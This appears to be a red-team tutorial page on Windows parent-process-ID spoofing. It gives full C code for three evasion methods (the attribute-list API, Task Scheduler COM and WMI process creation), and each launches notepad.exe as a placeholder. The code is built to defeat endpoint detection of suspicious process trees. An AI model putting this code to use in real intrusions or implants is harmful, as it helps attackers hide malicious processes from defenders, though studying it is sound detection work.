




Parent Process ID (PPID) Spoofing technique allows to create a process with a parent process ID that differs from the genuine parent process. By doing so, one can avoid detection by security systems designed to identify post-exploitation activities based on parent-child relationship. PPID Spoofing can effectively "hide" a true origin of a process.
There are different techniques to exploit that technique:
Classic¶
The classic techniques consists by creating the new process already with the PPID modified. Thanks to UpdateProcThreadAttribute function we can modify it to the desired PPID.
First we need to get the PID from a process.
DWORD GetPidByName(const char * pName) {
PROCESSENTRY32 pEntry;
HANDLE snapshot;
pEntry.dwSize = sizeof(PROCESSENTRY32);
snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if (Process32First(snapshot, &pEntry) == TRUE) {
while (Process32Next(snapshot, &pEntry) == TRUE) {
if (_stricmp(pEntry.szExeFile, pName) == 0) {
return pEntry.th32ProcessID;
}
}
}
CloseHandle(snapshot);
return 0;
}

Now we need to initialize and update the process attribute list with the help of InitializeProcThreadAttributeList and UpdateProcThreadAttribute of the parent process, create a new STARTUPINFOEX of the process and set it up to new one.
- https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist
- https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute
InitializeProcThreadAttributeList(NULL, 1, 0, &cbAttributeListSize);
lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST) HeapAlloc(GetProcessHeap(), 0, cbAttributeListSize);
InitializeProcThreadAttributeList(lpAttributeList, 1, 0, &cbAttributeListSize);
hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, desiredPid);
UpdateProcThreadAttribute(lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL);
info.lpAttributeList = lpAttributeList;
CreateProcess(NULL, (LPSTR) "notepad.exe", NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &info.StartupInfo, &processInfo);
Code¶
#include <stdio.h>
#include <windows.h>
#include <tlhelp32.h>
#include <psapi.h>
DWORD GetPidByName(const char * pName) {
PROCESSENTRY32 pEntry;
HANDLE snapshot;
pEntry.dwSize = sizeof(PROCESSENTRY32);
snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if (Process32First(snapshot, &pEntry) == TRUE) {
while (Process32Next(snapshot, &pEntry) == TRUE) {
if (_stricmp(pEntry.szExeFile, pName) == 0) {
return pEntry.th32ProcessID;
}
}
}
CloseHandle(snapshot);
return 0;
}
int main(void) {
DWORD desiredPid = 0;
SIZE_T cbAttributeListSize = 0;
LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList = NULL;
HANDLE hParentProcess = NULL;
STARTUPINFOEX info = { sizeof(info) };
PROCESS_INFORMATION processInfo;
desiredPid = GetPidByName("explorer.exe");
if(desiredPid == 0){
desiredPid = GetCurrentProcessId(); //In case of error
}
InitializeProcThreadAttributeList(NULL, 1, 0, &cbAttributeListSize);
lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST) HeapAlloc(GetProcessHeap(), 0, cbAttributeListSize);
InitializeProcThreadAttributeList(lpAttributeList, 1, 0, &cbAttributeListSize);
hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, desiredPid);
UpdateProcThreadAttribute(lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL);
info.lpAttributeList = lpAttributeList;
CreateProcess(NULL, (LPSTR) "notepad.exe", NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &info.StartupInfo, &processInfo);
printf("Current PID:\t%d \nParent PID:\t%d \nNewProcess PID:\t%d\n", GetCurrentProcessId(), desiredPid, processInfo.dwProcessId);
getchar();
return 0;
}
Here we can see a process notepad.exe created by rtnotes.exe has the parent pid of a different process, in that case explorer.exe.

Windows Scheduler¶
Creating a windows task with our binary it will use svchost.exe as a parent process.
We can use WinAPI to create the task since powershell and cmd are actively monitored.
Note: If you want to run the implant under
svchost.exewe will need to drop the file to disk.
There are different alternatives such as using ITaskScheduler or ITaskService. Here we are going to see an example of ITaskScheduler.
#include <windows.h>
#include <initguid.h>
#include <ole2.h>
#include <mstask.h>
#include <msterr.h>
#include <objidl.h>
#include <wchar.h>
#include <stdio.h>
#pragma comment(lib, "taskschd.lib")
#pragma comment(lib, "Ole32.lib")
void InitCOM() {
CoInitializeEx(NULL, COINIT_MULTITHREADED);
}
void CleanCOM() {
CoUninitialize();
}
int main(void) {
ITaskScheduler *pTaskScheduler;
ITask *pTask;
IPersistFile *pPersistFile;
HRESULT hr;
LPCWSTR pwszTaskName;
pwszTaskName = L"rtnotes3";
InitCOM();
hr = CoCreateInstance(CLSID_CTaskScheduler, NULL, CLSCTX_INPROC_SERVER, IID_ITaskScheduler, (void**)&pTaskScheduler);
if(FAILED(hr)){
printf("[-] Error creating ITaskScheduler\n");
CleanCOM();
return -1;
}
printf("[+] TaskScheduler up\n");
// Create Task
printf("[+] Creating the task\n");
hr = pTaskScheduler->NewWorkItem(pwszTaskName, CLSID_CTask, IID_ITask, (IUnknown**)&pTask);
pTask->SetComment(L"rtnotes scheduled task");
pTask->SetApplicationName(L"C:\\Windows\\System32\\notepad.exe");
pTask->SetWorkingDirectory(L"C:\\Windows\\System32");
pTask->SetParameters(L"c:\\tools\\rtnotes\\test.txt");
pTask->SetAccountInformation(L"brave", NULL);
//pTask->SetFlags(TASK_FLAG_RUN_ONLY_IF_LOGGED_ON | TASK_FLAG_HIDDEN);
pTask->SetFlags(TASK_FLAG_RUN_ONLY_IF_LOGGED_ON);
hr = pTask->QueryInterface(IID_IPersistFile, (void**) &pPersistFile);
if(FAILED(hr)){
printf("[-] Error Quering Interface\n");
CleanCOM();
return -1;
}
// Save Task to disk file
printf("[+] Saving the task to disk\n");
hr = pPersistFile->Save(NULL,TRUE);
pPersistFile->Release();
if(FAILED(hr)){
printf("[-] Error Saving IPersistFile\n");
CleanCOM();
return -1;
}
// Execute Task
printf("[+] Executing the task\n");
hr = pTask->Run();
pTask->Release();
if(FAILED(hr)){
printf("[-] Error Executing ITask\n");
CleanCOM();
return -1;
}
// Deleting the task
printf("[+] Deleting the task\n");
getchar();
pTaskScheduler->Delete(pwszTaskName);
pTaskScheduler->Release();
CleanCOM();
printf("[+] Finished\n");
return 0;
}

Note: I suffered some errors at the time of deleting the task, try to use a different name in each execution to avoid problems if the task has not been deleted successfuly.
WMI¶
Windows Management Instrumentation (WMI) is a component of the Windows operating system that provides a standardized way for software and systems to access and manage information about the Windows environment. It is part of the Windows API and is used for system administration, monitoring, and automation tasks.
We can also spawn a new process using a differente parent process with WMI. It will spawn as a child of WmiPrvSE.exe.
Note: This technique is used by emotet.
Key Steps:
- Initialize COM.
- Connect to the WMI service.
- Execute the Create method of the
Win32_Process. - Handle errors and free resources.
#define _WIN32_DCOM
#include <Windows.h>
#include <stdio.h>
#include <comdef.h>
#include <Wbemidl.h>
#pragma comment(lib, "wbemuuid.lib")
void InitCOM() {
CoInitializeEx(NULL, COINIT_MULTITHREADED);
}
void CleanCOM() {
CoUninitialize();
}
int main(int argc, char *argv[]) {
HRESULT hres;
IWbemLocator* pLocator = NULL;
IWbemServices* pServices = NULL;
IWbemClassObject* pClass = NULL;
IWbemClassObject* pMethod = NULL;
IWbemClassObject* pInParams = NULL;
IWbemClassObject* pOutParams = NULL;
VARIANT varCommand;
InitCOM();
printf("[+] COM initialized\n");
hres = CoInitializeSecurity(NULL, -1, NULL, NULL, RPC_C_AUTHN_LEVEL_DEFAULT, RPC_C_IMP_LEVEL_IMPERSONATE, NULL, EOAC_NONE, NULL);
if(FAILED(hres)){
printf("[-] Error at CoInitializeSecurity\n");
CleanCOM();
return -1;
}
printf("[+] COM security initialized\n");
hres = CoCreateInstance(CLSID_WbemLocator, 0, CLSCTX_INPROC_SERVER, IID_IWbemLocator, (LPVOID*)&pLocator);
if(FAILED(hres)){
printf("[-] Error at CoCreateInstance\n");
CleanCOM();
return -1;
}
hres = pLocator->ConnectServer(_bstr_t(L"ROOT\\CIMV2"), NULL, NULL, 0, NULL, 0, 0, &pServices);
if(FAILED(hres)){
printf("[-] Error at connecting to WMI\n");
pLocator->Release();
CleanCOM();
return -1;
}
printf("[+] Connected to WMI\n");
hres = CoSetProxyBlanket(pServices, RPC_C_AUTHN_WINNT, RPC_C_AUTHZ_NONE, NULL, RPC_C_AUTHN_LEVEL_CALL, RPC_C_IMP_LEVEL_IMPERSONATE, NULL, EOAC_NONE);
if(FAILED(hres)){
printf("[-] Error at CoSetProxyBlanket\n");
pLocator->Release();
CleanCOM();
return -1;
}
printf("[+] WMI Proxy configured\n");
hres = pServices->GetObject(_bstr_t(L"Win32_Process"), 0, NULL, &pClass, NULL);
if(FAILED(hres)){
printf("[-] Error at Getting Win32_Process\n");
pServices->Release();
pLocator->Release();
CleanCOM();
return -1;
}
hres = pClass->GetMethod(L"Create", 0, &pMethod, NULL);
if(FAILED(hres)){
printf("[-] Error at Getting method Create\n");
pClass->Release();
pServices->Release();
pLocator->Release();
CleanCOM();
return -1;
}
hres = pMethod->SpawnInstance(0, &pInParams);
if(FAILED(hres)){
printf("[-] Error at SpwanInstance\n");
pMethod->Release();
pClass->Release();
pServices->Release();
pLocator->Release();
CleanCOM();
return -1;
}
printf("[+] Setting parameters to execute the process\n");
VariantInit(&varCommand);
varCommand.vt = VT_BSTR;
varCommand.bstrVal = SysAllocString(L"notepad.exe");
hres = pInParams->Put(L"CommandLine", 0, &varCommand, 0);
VariantClear(&varCommand);
if(FAILED(hres)){
printf("[-] Error setting CommandLine\n");
pInParams->Release();
pMethod->Release();
pClass->Release();
pServices->Release();
pLocator->Release();
CleanCOM();
return -1;
}
printf("[+] Executing Create method\n");
hres = pServices->ExecMethod(_bstr_t(L"Win32_Process"), _bstr_t(L"Create"), 0, NULL, pInParams, &pOutParams, NULL);
if (FAILED(hres)) {
printf("[-] Error executing Create Method\n");
}
printf("[+] Process created via WMI!\n");
if (pOutParams) pOutParams->Release();
pInParams->Release();
pMethod->Release();
pClass->Release();
pServices->Release();
pLocator->Release();
CleanCOM();
printf("[+] Exit\n");
return 0;
}
